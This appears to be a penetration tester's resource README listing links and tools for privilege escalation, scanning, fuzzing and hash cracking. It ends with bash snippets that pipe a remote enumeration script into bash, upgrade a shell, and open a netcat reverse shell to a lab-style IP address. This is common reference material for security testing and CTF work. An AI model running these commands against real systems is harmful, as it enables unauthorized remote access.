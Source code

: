 # Resources

## Links

- [GTFOBins](https://gtfobins.github.io/) - List of unix binaries which can be exploited to escalate privileges etc.
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) - List of remote shells in various languages
- [NetCat without -e](https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/) - Reverse shell spawning when netcat does not support `-e`
- [Exploit DB](https://www.exploit-db.com/) - Exploit DB
- [Shell Upgrade Guide](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Windows Privilege Escalation](https://guif.re/windowseop) - Windows privelege escalation
- [Explain Shell](https://explainshell.com/) - Not pen-testing specific but a very useful resource! 

## Tools

### Frameworks

- [metasploit](https://www.metasploit.com/) - Penetration testing framework

### Port Scanning
- [nmap](https://nmap.org/)
- [furious](https://github.com/liamg/furious)

### Fuzzing
- [scout](https://github.com/liamg/scout) - Lightweight URL fuzzer
- [gobuster](https://github.com/OJ/gobuster) - File/directory/DNS/VHOST buster
- [wfuzz](https://tools.kali.org/web-applications/wfuzz) - Advanced web fuzzer

### Crypto
- [John the Ripper](https://www.openwall.com/john/) - Flexible hash cracker
- [pax](https://github.com/liamg/pax) - Padding oracle exploiter

### Linux Enumeration
- [LinEnum](https://github.com/rebootuser/LinEnum) - Linux enumeration script

## Snippets

### Linux Enumeration

```bash
curl -s https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Upgrade Shell

```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py && python /tmp/shell.py
```

### Reverse Shell w/ max compatibility

```bash
rm /tmp/backpipe; mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc 10.10.14.11 4445 1>/tmp/backpipe
```